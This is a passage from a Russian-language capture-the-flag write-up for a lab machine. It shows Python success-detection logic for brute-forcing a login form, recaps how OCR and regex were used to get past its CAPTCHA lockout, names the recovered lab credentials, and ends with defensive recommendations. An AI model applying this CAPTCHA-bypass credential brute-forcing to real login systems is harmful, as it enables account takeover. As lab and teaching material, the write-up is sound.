Если Burp не нужен, параметр `--proxy` можно убрать.

---

#### ✅ Найденные учётные данные

Скрипт считает ответ кандидатом, если:

- был редирект;
- в HTML появились слова `dashboard`, `logout`, `welcome`, `flag`;
- ответ перестал быть обычной страницей `Administrator login`;
- ответ не является страницей `Invalid captcha`.

Это проверяет функция `is_candidate()`:

```python
def is_candidate(response):
    text = response.text.lower()
    if response.history:
        return True
    if any(word in text for word in ("dashboard", "logout", "welcome", "flag")):
        return True
    if "administrator login" not in text and "invalid captcha" not in text:
        return True
    return False
```

Типы данных:

- `response` — объект `requests.Response`;
- `response.text` — HTML-ответ как строка (`str`);
- `response.history` — список предыдущих ответов при редиректах (`list[Response]`);
- результат функции — `bool`: `True` или `False`.

Разбор условий:

- `if response.history:` — если после логина был редирект, это подозрительно: возможно, вход успешный и сервер отправил нас на dashboard.
- `any(word in text for word in (...))` — функция `any()` возвращает `True`, если хотя бы одно слово из списка найдено в HTML.
- `"administrator login" not in text` — если обычная форма входа исчезла, ответ отличается от неудачного логина.
- `"invalid captcha" not in text` — отсекаем случай, когда скрипт просто ошибся в CAPTCHA.

Эта логика не “гарантирует” успех математически, но помогает найти ответ-кандидат, который отличается от обычных неудачных попыток.

При нахождении подозрительного ответа скрипт выводит:

```text
[+] possible hit: bertie:marilyn
```

и сохраняет HTML в:

```text
candidate_response.html
```

В нашем запуске валидная пара:

```text
bertie:marilyn
```

После входа с этими данными получаем флаг.

---

## 🏁 Итог

Машина **Capture Returns** успешно пройдена по цепочке:

> 🔍 Recon → 🌐 Login Form Discovery → 🗂️ Task Wordlists → 🧪 Burp Brute Force Attempt → 🧱 CAPTCHA Protection → 🤖 Custom Python Automation → 🧮 CAPTCHA Solving → 💣 Clusterbomb Credential Testing → 🏁 Valid Login → 🎯 Flag

**Ключевые точки:**

- 🔎 **Разведка** — на машине открыты только `22/tcp` и `80/tcp`; HTTP-сервис на Gunicorn перенаправляет на `/login`.
- 🌐 **Форма входа** — HTML показал `POST`-форму с параметрами `username` и `password`, что позволило понять формат будущих запросов.
- 📦 **Task files** — выданные `usernames.txt` и `passwords.txt` подсказали направление атаки: проверка учётных данных.
- 🧪 **Burp Intruder** — первая идея с обычным перебором быстро упёрлась в защиту после трёх неверных попыток.
- 🧱 **CAPTCHA-защита** — приложение требует решить 3 CAPTCHA подряд, прежде чем снова разрешить попытки входа.
- 🤖 **Скрипт `thm_login_check.py`** — автоматизировал перебор, сохраняя cookies через `requests.Session`, распознавая CAPTCHA и продолжая атаку после разблокировки.
- 🧮 **Решение CAPTCHA** — текстовые примеры решались через регулярные выражения, картинки — через `PIL`, `OpenCV` и `pytesseract`, shape CAPTCHA — через анализ контуров.
- 💣 **Clusterbomb** — скрипт проверял каждый логин с каждым паролем, потому что заранее не было понятно, какие строки из двух списков соответствуют друг другу.
- 🧷 **Resume** — неудачные пары сохранялись в `bad_pairs.txt`, чтобы можно было продолжить перебор без повторов.
- 🎯 **Результат** — валидная пара `bertie:marilyn` позволила войти в приложение и получить флаг.

**Рекомендации по защите:**

- 🔒 Не полагаться на простую арифметическую CAPTCHA как на полноценную защиту от автоматизации.
- ⏱️ Добавить rate limit на IP, пользователя и сессию, а также увеличивающиеся задержки после неудачных попыток.
- 🧩 Использовать CAPTCHA, устойчивую к простому OCR, или внешние антибот-механизмы с серверной проверкой.
- 🧾 Не позволять различать успешные и неуспешные попытки по слишком явным отличиям в ответах, редиректах или длине страницы.
- 🔐 Включить блокировку/уведомления при массовых попытках входа и контролировать повторяющиеся паттерны `username:password`.
- 📉 Ограничивать количество CAPTCHA-сбросов и не давать бесконечно продолжать перебор после прохождения очередной серии.

---

Автор: **masquadd** 👾
